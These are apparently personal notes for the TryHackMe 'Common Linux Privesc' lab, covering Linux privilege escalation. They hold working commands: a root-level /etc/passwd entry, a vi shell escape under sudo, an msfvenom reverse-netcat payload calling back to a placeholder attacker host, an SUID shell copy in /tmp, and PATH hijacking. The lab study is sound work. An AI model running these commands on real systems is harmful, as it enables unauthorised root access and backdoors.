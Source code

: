 # CommonlinuxprivEsc

[link to the room](https://tryhackme.com/room/commonlinuxprivesc)

`export ip=10.10.7.169`

## links
- [Misconfigured Binaries and GTFOBins](https://gtfobins.github.io/)
- https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
- https://payatu.com/guide-linux-privilege-escalation

## Recon
command: `LinEnum.sh`

## TASK
### exploit writable /etc/passwd
- add new entry : `root1:x:0:0:root:/root:/bin/bash` 
generate passwd : `openssl passwd -1 -salt [salt] [password]`
### escaping vi editor
- check the user8 commands for super user `sudo -l`
- escape vi esacalate to root: `sudo vi -c ':!/bin/sh' /dev/null`
### exploiting CronTab

#### what is cron ?
The Cron daemon is a long-running process that executes commands at specific dates and times.

#### How to view what Cronjobs are active.
We can use the command `cat /etc/crontab` to view what cron jobs are scheduled.

#### exploit
- make a reverse shell with msfvenom R: `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`
- copy sh from root with SUID set : `cp /bin/sh /tmp/rootsh && chmod +xs /tmp/rootsh` then run it with `-p` to preserve permissions


### exploiting PATH variable
We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!


